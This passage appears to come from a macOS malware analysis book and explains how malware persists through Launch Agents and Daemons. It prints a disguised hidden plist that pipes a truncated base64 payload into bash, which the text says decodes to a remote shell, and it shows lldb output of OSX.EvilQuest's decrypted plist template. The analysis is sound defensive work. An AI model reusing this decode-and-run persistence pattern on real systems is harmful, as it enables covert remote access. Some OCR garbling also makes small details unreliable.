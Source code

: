 Once the malware has been installed, we can examine the (now decoded) Launch Agent property list:

```
$ cat ~/Library/LaunchAgents/.com.apple.upd.plist
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE plist PUBLIC "-//Apple//DTD PLIST 1.0//EN" ...>
<plist version="1.0">
<dict>
  <key>KeepAlive</key>
  <true/>
  <key>Label</key>
  <string>com.apples.apps.upd</string>
  <key>ProgramArguments</key>
 <array>
   <string>sh</string>
   <string>-c</string>
   <string>echo 'd2hpbGUgOjs ... RvbmU=' | base64 --decode | bash</string>
```
</array> <key>RunAtLoad</key> <true/> </dict>

As the ~/Library/LaunchAgents/.com.apple.upd.plist has the RunAtLoad key set to true, the commands specified in the ProgramArguments array (that decode to a remote shell) will be automatically executed each time the user logs in.

As a final example of Launch Item persistence, let's take a look at QSX.EvilQuest [15]. This malware will persist as a Launch Daemon if it is running with root privileges. (Recall that to create a Launch Daemon, one has to possess such privileges). And what if the malware finds itself only running with user privileges? In that case, it simply creates a user Launch Agent.

OSX.EvilQuest [15] contains an embedded property list template for launch item persistence. In an attempt to complicate analysis though, this template is encrypted. However, in a debugger we can simply wait until the malware (named toolroomd) has decrypted the embedded property list template. Then, view it (now unencrypted) in memory:

#### $ lldb /Library/mixednkey/toolroomd

(11db) x/s $rax 0x100119540: "<?xml version="1.0" encoding="UTF-8"?>\n<!DOCTYPE plist PUBLIC "-//Apple//DTD PLIST 1.0//EN" " version="1.0">\n<dict>\n<key>Label</key>\n<string>\n\n<key>ProgramArguments </key>\n<array>\n<string>%s</string>\n<string>--silent</string>\n</array>\n\n<key>RunA tLoad</key>\n<true/>\n\n<key>KeepAlive</key>\n<true/>\n\n</dict>\n</plist>"

# decrypted property list template (OSX.EvilQuest)

#### . Note:

In subsequent chapters we cover both debugging and defeating such anti-analysis techniques:

- Chapter 0x0A: Debugging ■
- Chapter 0x0B: Anti-Analysis

Once OSX.EvilQuest has completed its installation and persistently infected the system, we can also simply read the launch daemon property list (named com.apple.questd.plist) that is stored in the /Library/LaunchDaemons/ directory:
